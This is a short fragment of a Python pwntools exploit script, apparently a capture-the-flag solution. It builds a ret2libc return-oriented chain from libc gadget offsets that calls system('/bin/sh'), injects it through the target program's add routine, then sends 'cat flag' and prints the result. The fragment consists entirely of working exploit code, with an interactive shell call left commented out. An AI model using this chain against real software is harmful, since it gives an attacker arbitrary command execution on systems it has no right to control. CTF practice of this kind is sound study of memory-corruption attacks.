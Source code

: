 ```python
    # ret2libc on the stack
    POP_RDI_RET = libc.address + 0x2a3e5
    RET = libc.address + 0xf41c9
    BINSH = libc.address + 0x1d8698
    ret2libc = p32(0) + flat(POP_RDI_RET, BINSH, RET, libc.sym.system)
    add(0, 6, ret2libc)

    # ======================================================

    log.success(f"pwned :)")

    r.sendline(b"cat flag")
    r.recv()
    flag = r.recvline().decode().rstrip("\n")
    print(flag)

    # r.interactive()

if __name__ == "__main__":
    main()
```





